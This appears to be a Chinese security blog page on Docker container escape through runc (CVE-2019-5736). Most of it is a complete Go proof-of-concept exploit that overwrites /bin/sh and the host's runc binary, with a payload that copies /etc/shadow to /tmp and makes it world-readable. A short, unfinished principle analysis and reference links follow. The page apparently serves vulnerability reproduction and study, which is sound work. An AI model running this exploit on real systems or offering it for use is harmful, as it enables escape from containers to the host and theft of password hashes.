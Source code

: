 # Docker逃逸系列4 runc漏洞逃逸








kali上接收不到反弹shell，怎么回事(successfully got write handle {address} 这里并没有显示出来，执行到这里卡住了？)

```go
package main

// Implementation of CVE-2019-5736
// Created with help from @singe, @_cablethief, and @feexd.
// This commit also helped a ton to understand the vuln
// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d
import (
	"fmt"
	"io/ioutil"
	"os"
	"strconv"
	"strings"
)

// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"

func main() {
	// First we overwrite /bin/sh with the /proc/self/exe interpreter path
	fd, err := os.Create("/bin/sh")
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Fprintln(fd, "#!/proc/self/exe")
	err = fd.Close()
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Println("[+] Overwritten /bin/sh successfully")

	// Loop through all processes to find one whose cmdline includes runcinit
	// This will be the process created by runc
	var found int
	for found == 0 {
		pids, err := ioutil.ReadDir("/proc")
		if err != nil {
			fmt.Println(err)
			return
		}
		for _, f := range pids {
			fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
			fstring := string(fbytes)
			if strings.Contains(fstring, "runc") {
				fmt.Println("[+] Found the PID:", f.Name())
				found, err = strconv.Atoi(f.Name())
				if err != nil {
					fmt.Println(err)
					return
				}
			}
		}
	}

	// We will use the pid to get a file handle for runc on the host.
	var handleFd = -1
	for handleFd == -1 {
		// Note, you do not need to use the O_PATH flag for the exploit to work.
		handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
		if int(handle.Fd()) > 0 {
			handleFd = int(handle.Fd())
		}
	}
	fmt.Println("[+] Successfully got the file handle")

	// Now that we have the file handle, lets write to the runc binary and overwrite it
	// It will maintain it's executable flag
	for {
		writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
		if int(writeHandle.Fd()) > 0 {
			fmt.Println("[+] Successfully got write handle", writeHandle)
			writeHandle.Write([]byte(payload))
			return
		}
	}
}

```



### 原理分析：

- 修改容器内的`/bin/sh`文件，改为`#!/proc/self/exe`，这样的话，当容器内的`/bin/sh`被执行的时候，实际上被执行的文件路径是`/proc/self/exe`
- `/proc/self/exe`是内核为每个进程创建的符号链接，指向**为该进程而执行的二进制文件**。当容器中的`/bin/sh`被执行时，`/proc/self/exe`指向的宿主机上的`runc`就会被执行
- 

## 参考链接

- [复现参考1](https://cloud.tencent.com/developer/article/1668009?from=information.detail.docker%20%E9%80%83%E9%80%B8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)
- [复现参考2](https://www.freebuf.com/articles/web/258398.html)
- [PoC代码地址](https://github.com/Frichetten/CVE-2019-5736-PoC)
- [https://kubernetes.io/blog/2019/02/11/runc-and-cve-2019-5736/#what-is-the-vulnerability](https://kubernetes.io/blog/2019/02/11/runc-and-cve-2019-5736/#what-is-the-vulnerability)
- 

